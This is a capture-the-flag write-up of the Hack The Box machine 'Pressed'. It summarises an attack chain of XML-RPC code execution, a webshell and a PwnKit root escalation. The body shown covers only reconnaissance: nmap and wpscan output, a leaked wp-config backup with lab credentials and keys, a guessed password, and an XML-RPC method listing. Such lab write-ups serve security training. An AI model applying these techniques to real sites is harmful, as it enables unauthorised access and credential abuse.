


---
tags:
  - wordpress
  - xmlrpc
  - pkexec
  - CVE-2021-4034
---


- Machine : https://app.hackthebox.com/machines/Pressed
- Reference : https://0xdf.gitlab.io/2022/02/03/htb-pressed.html
- Solved : 2024.12.01. (Sun) (Takes 2days)

## Summary
---

1. **Initial Reconnaissance**
	- **Port Scanning**: Identified open HTTP port (80) hosting WordPress 5.9.
	- **Website Analysis**:
	    - Discovered domain `pressed.htb`.
	    - Enumerated features such as XML-RPC availability, enabled upload directory listing, and presence of `wp-config.php.bak` backup file.
	- **Backup File Enumeration**: Extracted credentials for database user.
	
 2. **WordPress Exploitation**
	- **wp-login Credential**:
	    - Utilized extracted database credentials to authenticate as `admin`.
	- **XML-RPC Abuse**:
	    - Leveraged `wp.newPost` to upload and execute malicious PHP code using the `php-everywhere` plugin.
	- **Custom Webshell**:
	    - Created a PHP webshell to execute arbitrary commands remotely.
	    - Enumerated the file system and system binaries.
3. **Privilege Escalation**
	- **Enumerated SUID Binaries**: Identified `pkexec` as a potential target for exploitation.
	- **CVE-2021-4034 (PwnKit)**:
	    - Uploaded a modified PoC script for `pkexec` via XML-RPC.
	    - Reconfigured the script to modify firewall rules and enable reverse shell execution.
	    - Successfully escalated privileges to `root` by executing the script on the target.

### Key Techniques:

- **Enumeration**:
    - WordPress vulnerabilities (`XML-RPC`, backup file).
    - SUID binaries (`pkexec`).
- **Exploitation**:
    - XML-RPC for remote code execution (`wp.newPost` and `php-everywhere` plugin).
    - Privilege escalation via `CVE-2021-4034`.
- **Tooling**:
    - Utilized `wpscan`, custom Python scripts, and compiled PoC for privilege escalation.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.142
Performing quick port scan on 10.10.11.142...
Found open ports: 80
Performing detailed scan on 10.10.11.142...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-30 13:51 EST
Nmap scan report for 10.10.11.142
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: UHC Jan Finals &#8211; New Month, New Boxes
|_http-generator: WordPress 5.9
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.10 seconds
```

Only port `80` is found.
`Wordpress 5.9` is running on it.
Let's take a look at the only service.

### http(80)


The domain name is `pressed.htb`. Let's add this to `/etc/hosts`.


I tried to capture the POST request through `Burpsuite`.

```bash
POST /wp-comments-post.php HTTP/1.1
Host: 10.10.11.142
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 114
Origin: http://10.10.11.142
Connection: keep-alive
Referer: http://10.10.11.142/index.php/2022/01/28/hello-world/
Upgrade-Insecure-Requests: 1

comment=test&author=test&email=test%40test.com&url=test.com&submit=Post+Comment&comment_post_ID=1&comment_parent=0
```

Let's scan with `wpscan`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wpscan --url http://pressed.htb --api-token $WPSCAN_API_TOKEN
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://pressed.htb/ [10.10.11.142]
[+] Started: Sat Nov 30 14:41:44 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://pressed.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pressed.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://pressed.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pressed.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.9 identified (Insecure, released on 2022-01-25).
 | Found By: Rss Generator (Passive Detection)
 |  - http://pressed.htb/index.php/feed/, <generator>https://wordpress.org/?v=5.9</generator>
 |  - http://pressed.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.9</generator>
 |
 | [!] 35 vulnerabilities identified:
 |
 | [!] Title: WordPress (5.9-5.9.1) / Gutenberg (9.8.0-12.7.1) - Contributor+ Stored Cross-Site Scripting
 |     Fixed in: 5.9.2
 |     References:
 |      - https://wpscan.com/vulnerability/1fd6742e-1a32-446d-be3d-7cce44f8f416
 |      - https://wordpress.org/news/2022/03/wordpress-5-9-2-security-maintenance-release/
 |
 | [!] Title: WordPress < 5.9.2 - Prototype Pollution in jQuery
 |     Fixed in: 5.9.2
 |     References:
 |      - https://wpscan.com/vulnerability/1ac912c1-5e29-41ac-8f76-a062de254c09
 |      - https://wordpress.org/news/2022/03/wordpress-5-9-2-security-maintenance-release/
 |
 | [!] Title: WordPress < 5.9.2 / Gutenberg < 12.7.2 - Prototype Pollution via Gutenberg’s wordpress/url package
 |     Fixed in: 5.9.2
 |     References:
 |      - https://wpscan.com/vulnerability/6e61b246-5af1-4a4f-9ca8-a8c87eb2e499
 |      - https://wordpress.org/news/2022/03/wordpress-5-9-2-security-maintenance-release/
 |      - https://github.com/WordPress/gutenberg/pull/39365/files
 |
 | [!] Title: WP < 6.0.2 - Reflected Cross-Site Scripting
 |     Fixed in: 5.9.4
 |     References:
 |      - https://wpscan.com/vulnerability/622893b0-c2c4-4ee7-9fa1-4cecef6e36be
 |      - https://wordpress.org/news/2022/08/wordpress-6-0-2-security-and-maintenance-release/
 |
 | [!] Title: WP < 6.0.2 - Authenticated Stored Cross-Site Scripting
 |     Fixed in: 5.9.4
 |     References:
 |      - https://wpscan.com/vulnerability/3b1573d4-06b4-442b-bad5-872753118ee0
 |      - https://wordpress.org/news/2022/08/wordpress-6-0-2-security-and-maintenance-release/
 |
 | [!] Title: WP < 6.0.2 - SQLi via Link API
 |     Fixed in: 5.9.4
 |     References:
 |      - https://wpscan.com/vulnerability/601b0bf9-fed2-4675-aec7-fed3156a022f
 |      - https://wordpress.org/news/2022/08/wordpress-6-0-2-security-and-maintenance-release/
 |
 | [!] Title: WP < 6.0.3 - Stored XSS via wp-mail.php
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/713bdc8b-ab7c-46d7-9847-305344a579c4
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/abf236fdaf94455e7bc6e30980cf70401003e283
 |
 | [!] Title: WP < 6.0.3 - Open Redirect via wp_nonce_ays
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/926cd097-b36f-4d26-9c51-0dfab11c301b
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/506eee125953deb658307bb3005417cb83f32095
 |
 | [!] Title: WP < 6.0.3 - Email Address Disclosure via wp-mail.php
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/c5675b59-4b1d-4f64-9876-068e05145431
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/5fcdee1b4d72f1150b7b762ef5fb39ab288c8d44
 |
 | [!] Title: WP < 6.0.3 - Reflected XSS via SQLi in Media Library
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/cfd8b50d-16aa-4319-9c2d-b227365c2156
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/8836d4682264e8030067e07f2f953a0f66cb76cc
 |
 | [!] Title: WP < 6.0.3 - CSRF in wp-trackback.php
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/b60a6557-ae78-465c-95bc-a78cf74a6dd0
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/a4f9ca17fae0b7d97ff807a3c234cf219810fae0
 |
 | [!] Title: WP < 6.0.3 - Stored XSS via the Customizer
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/2787684c-aaef-4171-95b4-ee5048c74218
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/2ca28e49fc489a9bb3c9c9c0d8907a033fe056ef
 |
 | [!] Title: WP < 6.0.3 - Stored XSS via Comment Editing
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/02d76d8e-9558-41a5-bdb6-3957dc31563b
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/89c8f7919460c31c0f259453b4ffb63fde9fa955
 |
 | [!] Title: WP < 6.0.3 - Content from Multipart Emails Leaked
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/3f707e05-25f0-4566-88ed-d8d0aff3a872
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/3765886b4903b319764490d4ad5905bc5c310ef8
 |
 | [!] Title: WP < 6.0.3 - SQLi in WP_Date_Query
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/1da03338-557f-4cb6-9a65-3379df4cce47
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/d815d2e8b2a7c2be6694b49276ba3eee5166c21f
 |
 | [!] Title: WP < 6.0.3 - Stored XSS via RSS Widget
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/58d131f5-f376-4679-b604-2b888de71c5b
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/929cf3cb9580636f1ae3fe944b8faf8cca420492
 |
 | [!] Title: WP < 6.0.3 - Data Exposure via REST Terms/Tags Endpoint
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/b27a8711-a0c0-4996-bd6a-01734702913e
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/ebaac57a9ac0174485c65de3d32ea56de2330d8e
 |
 | [!] Title: WP < 6.0.3 - Multiple Stored XSS via Gutenberg
 |     Fixed in: 5.9.5
 |     References:
 |      - https://wpscan.com/vulnerability/f513c8f6-2e1c-45ae-8a58-36b6518e2aa9
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/gutenberg/pull/45045/files
 |
 | [!] Title: WP <= 6.2 - Unauthenticated Blind SSRF via DNS Rebinding
 |     References:
 |      - https://wpscan.com/vulnerability/c8814e6e-78b3-4f63-a1d3-6906a84c1f11
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-3590
 |      - https://blog.sonarsource.com/wordpress-core-unauthenticated-blind-ssrf/
 |
 | [!] Title: WP < 6.2.1 - Directory Traversal via Translation Files
 |     Fixed in: 5.9.6
 |     References:
 |      - https://wpscan.com/vulnerability/2999613a-b8c8-4ec0-9164-5dfe63adf6e6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-2745
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |
 | [!] Title: WP < 6.2.1 - Thumbnail Image Update via CSRF
 |     Fixed in: 5.9.6
 |     References:
 |      - https://wpscan.com/vulnerability/a03d744a-9839-4167-a356-3e7da0f1d532
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |
 | [!] Title: WP < 6.2.1 - Contributor+ Stored XSS via Open Embed Auto Discovery
 |     Fixed in: 5.9.6
 |     References:
 |      - https://wpscan.com/vulnerability/3b574451-2852-4789-bc19-d5cc39948db5
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |
 | [!] Title: WP < 6.2.2 - Shortcode Execution in User Generated Data
 |     Fixed in: 5.9.7
 |     References:
 |      - https://wpscan.com/vulnerability/ef289d46-ea83-4fa5-b003-0352c690fd89
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-2-security-release/
 |
 | [!] Title: WP < 6.2.1 - Contributor+ Content Injection
 |     Fixed in: 5.9.6
 |     References:
 |      - https://wpscan.com/vulnerability/1527ebdb-18bc-4f9d-9c20-8d729a628670
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |
 | [!] Title: WP 5.6-6.3.1 - Contributor+ Stored XSS via Navigation Block
 |     Fixed in: 5.9.8
 |     References:
 |      - https://wpscan.com/vulnerability/cd130bb3-8d04-4375-a89a-883af131ed3a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38000
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WP 5.6-6.3.1 - Reflected XSS via Application Password Requests
 |     Fixed in: 5.9.8
 |     References:
 |      - https://wpscan.com/vulnerability/da1419cc-d821-42d6-b648-bdb3c70d91f2
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WP < 6.3.2 - Denial of Service via Cache Poisoning
 |     Fixed in: 5.9.8
 |     References:
 |      - https://wpscan.com/vulnerability/6d80e09d-34d5-4fda-81cb-e703d0e56e4f
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WP < 6.3.2 - Subscriber+ Arbitrary Shortcode Execution
 |     Fixed in: 5.9.8
 |     References:
 |      - https://wpscan.com/vulnerability/3615aea0-90aa-4f9a-9792-078a90af7f59
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WP < 6.3.2 - Contributor+ Comment Disclosure
 |     Fixed in: 5.9.8
 |     References:
 |      - https://wpscan.com/vulnerability/d35b2a3d-9b41-4b4f-8e87-1b8ccb370b9f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39999
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WP < 6.3.2 - Unauthenticated Post Author Email Disclosure
 |     Fixed in: 5.9.8
 |     References:
 |      - https://wpscan.com/vulnerability/19380917-4c27-4095-abf1-eba6f913b441
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-5561
 |      - https://wpscan.com/blog/email-leak-oracle-vulnerability-addressed-in-wordpress-6-3-2/
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WordPress < 6.4.3 - Deserialization of Untrusted Data
 |     Fixed in: 5.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/5e9804e5-bbd4-4836-a5f0-b4388cc39225
 |      - https://wordpress.org/news/2024/01/wordpress-6-4-3-maintenance-and-security-release/
 |
 | [!] Title: WordPress < 6.4.3 - Admin+ PHP File Upload
 |     Fixed in: 5.9.9
 |     References:
 |      - https://wpscan.com/vulnerability/a8e12fbe-c70b-4078-9015-cf57a05bdd4a
 |      - https://wordpress.org/news/2024/01/wordpress-6-4-3-maintenance-and-security-release/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in HTML API
 |     Fixed in: 5.9.10
 |     References:
 |      - https://wpscan.com/vulnerability/2c63f136-4c1f-4093-9a8c-5e51f19eae28
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in Template-Part Block
 |     Fixed in: 5.9.10
 |     References:
 |      - https://wpscan.com/vulnerability/7c448f6d-4531-4757-bff0-be9e3220bbbb
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Path Traversal in Template-Part Block
 |     Fixed in: 5.9.10
 |     References:
 |      - https://wpscan.com/vulnerability/36232787-754a-4234-83d6-6ded5e80251c
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/

[+] WordPress theme in use: retrogeek
 | Location: http://pressed.htb/wp-content/themes/retrogeek/
 | Last Updated: 2024-04-26T00:00:00.000Z
 | Readme: http://pressed.htb/wp-content/themes/retrogeek/README.txt
 | [!] The version is out of date, the latest version is 0.7
 | Style URL: http://pressed.htb/wp-content/themes/retrogeek/style.css?ver=42
 | Style Name: RetroGeek
 | Style URI: https://tuxlog.de/retrogeek/
 | Description: A lightweight, minimal, fast and geeky retro theme remembering the good old terminal times...
 | Author: tuxlog
 | Author URI: https://tuxlog.de/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 0.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressed.htb/wp-content/themes/retrogeek/style.css?ver=42, Match: 'Version: 0.5'

[+] Enumerating All Plugins (via Passive Methods)

[!] http://pressed.htb/wp-config.php.bak
 | Found By: Direct Access (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23

[+] Finished: Sat Nov 30 14:41:56 2024
[+] Requests Done: 177
[+] Cached Requests: 5
[+] Data Sent: 43.817 KB
[+] Data Received: 146.424 KB
[+] Memory used: 270.727 MB
[+] Elapsed time: 00:00:12
```

- `readme.html` file is found.
- Directory listing is enabled in : `http://pressed.htb/wp-content/uploads`.
- Backup file has been found : `http://pressed.htb/wp-config.php.bak`

Let's investigate `readme.html` first.



It looks like it's an official installation guide line page. Any useful unique information is found.
Let's move on to upload directory listing.


It's directory listed page which contains years and months in order.
However, most pages are empty.
I built a `file_search.py` to find existing sub file. But I could find only a single image.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python file_search.py
Files in http://pressed.htb/wp-content/uploads/2022/01/:
  - http://pressed.htb/wp-content/uploads/2022/01/1080x360.jpg
```

Now let's download backup file from : `http://pressed.htb/wp-config.php.bak`

```php
┌──(kali㉿kali)-[~/htb]
└─$ cat wp-config.php.bak
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'uhc-jan-finals-2021' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '3MYXll40,8gfj_jX4!3J(278f1(SGEZ+v]#w]Bu<PrstLLHEZig,MJB#t E2pU2t' );
define( 'SECURE_AUTH_KEY',  'QPkQ%%h&5$3$C;Z}2N!LKz.O 57i2U.582Gy{C=$XV_(jJz~3gC=*nKP//{v{?n<' );
define( 'LOGGED_IN_KEY',    'rp}RE/3-_3OF%./6PH` 1zbCy#H22NRH,ETR(c2*Qlu&W>lW|::4T[iFx%W|%[hA' );
define( 'NONCE_KEY',        '#%s&zIE/mSuvN{+2]^n;21]|u;gmP6!-ihyCn91j{/.KRGbg8}{3C%kZ#$(i&bc-' );
define( 'AUTH_SALT',        ',7BVMi:h`][Q/3j8tHN*EjKk,jY|+hm.3OnjYS A$ArIx7B z]WzLJ$Tc7</s`td' );
define( 'SECURE_AUTH_SALT', ']s_RJ,%OLa.}_8wP Qeu9WJUhJ2Zd2I%>T5R#f{8op9:Hn??}7{ZJ*.K.t/{lVl0' );
define( 'LOGGED_IN_SALT',   'wwQj(p&1I8zAK!2lhR[xg.Vt`qeh|2R}HMz?~TuQ9QE*@iy?@*?pDV;[4BL9*n#W' );
define( 'NONCE_SALT',       '[Wv%%EDN<b/a_</u|snqMQ q)xPW8GyB4WAw f+1k2|IFbu*7#U(g-# l{Kw n6Z' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */


/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

From this backup php code, I can find DB credential for `admin` : `uhc-jan-finals-2021`

Here's my guess;
The found password is from backup file which might be old.
The year included in the credential is `2021` while current web site is hosting in 2022.
If they are keeping the convention, maybe the password for current web could be `uhc-jan-finals-2022`.

Since no other port is accessible, we cannot directly connect to DB.
Then, the only option is using this credential to `wp-login`.
Let's try to login on `wp-login.php`.

It worked with `uhc-jan-finals-2022` password, and redirected to the following page;


This page is asking Authentication code form `miniOrange` app.

I tried to find if there's any vulnerabilities with this app. But couldn't find anything useful for now.

Let's review `wpscan`'s result.
I can pick the next candidate : `xml-rpc`

```bash
[+] XML-RPC seems to be enabled: http://pressed.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
```


Here's an article regarding this exploitation:
https://book.hacktricks.xyz/kr/network-services-pentesting/pentesting-web/wordpress

First, let's list all possible commands.

```bash
POST /xmlrpc.php HTTP/1.1
Host: pressed.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Upgrade-Insecure-Requests: 1
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

################################################################

  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>htb.get_flag</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
  <value><string>blogger.getRecentPosts</string></value>
  <value><string>blogger.getPost</string></value>
  <value><string>blogger.getUserInfo</string></value>
  <value><string>blogger.getUsersBlogs</string></value>
  <value><string>wp.restoreRevision</string></value>
  <value><string>wp.getRevisions</string></value>
  <value><string>wp.getPostTypes</string></value>
  <value><string>wp.getPostType</string></value>
  <value><string>wp.getPostFormats</string></value>
  <value><string>wp.getMediaLibrary</string></value>
  <value><string>wp.getMediaItem</string></value>
  <value><string>wp.getCommentStatusList</string></value>
  <value><string>wp.newComment</string></value>
  <value><string>wp.editComment</string></value>
  <value><string>wp.deleteComment</string></value>
  <value><string>wp.getComments</string></value>
  <value><string>wp.getComment</string></value>
  <value><string>wp.setOptions</string></value>
  <value><string>wp.getOptions</string></value>
  <value><string>wp.getPageTemplates</string></value>
  <value><string>wp.getPageStatusList</string></value>
  <value><string>wp.getPostStatusList</string></value>
  <value><string>wp.getCommentCount</string></value>
  <value><string>wp.deleteFile</string></value>
  <value><string>wp.uploadFile</string></value>
  <value><string>wp.suggestCategories</string></value>
  <value><string>wp.deleteCategory</string></value>
  <value><string>wp.newCategory</string></value>
  <value><string>wp.getTags</string></value>
  <value><string>wp.getCategories</string></value>
  <value><string>wp.getAuthors</string></value>
  <value><string>wp.getPageList</string></value>
  <value><string>wp.editPage</string></value>
  <value><string>wp.deletePage</string></value>
  <value><string>wp.newPage</string></value>
  <value><string>wp.getPages</string></value>
  <value><string>wp.getPage</string></value>
  <value><string>wp.editProfile</string></value>
  <value><string>wp.getProfile</string></value>
  <value><string>wp.getUsers</string></value>
  <value><string>wp.getUser</string></value>
  <value><string>wp.getTaxonomies</string></value>
  <value><string>wp.getTaxonomy</string></value>
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
```

